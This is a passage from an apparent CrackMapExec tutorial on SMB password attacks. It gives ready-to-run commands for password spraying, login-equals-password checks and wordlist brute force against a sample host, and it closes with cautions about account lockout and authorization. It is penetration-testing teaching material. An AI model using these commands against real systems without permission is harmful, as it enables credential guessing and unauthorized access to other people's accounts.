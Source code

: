 ```bash
# Example: Continue spraying after a valid password is found
cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

#### Checking Login == Password Using Wordlists

You can check if the login is equal to the password using wordlists.

```bash
# Example: Check using user.txt for both usernames and passwords
cme smb 192.168.1.101 -u user.txt -p user.txt
```

#### Checking Multiple Usernames/Passwords Using Wordlists

Check multiple usernames against multiple passwords using wordlists.

```bash
# Example: Check using user.txt for usernames and password.txt for passwords
cme smb 192.168.1.101 -u user.txt -p password.txt
```

The result will display the combinations of usernames and passwords that succeed.

#### No Bruteforce with One Login Equal One Password

In some cases, you may want to check if one login is equal to one password using wordlists. The `--no-bruteforce` flag is used in such cases.

```bash
# Example: Check if one username equals one password
cme smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-success
```

The result will display successful combinations of usernames and passwords.

#### Caution

Be cautious when using these techniques to avoid locking accounts. Additionally, avoid specifying IP ranges or lists of IPs when using the `--no-bruteforce` option.

Remember that ethical hacking and penetration testing should only be performed on systems and networks you have explicit permission to test. Unauthorized hacking is illegal and unethical.

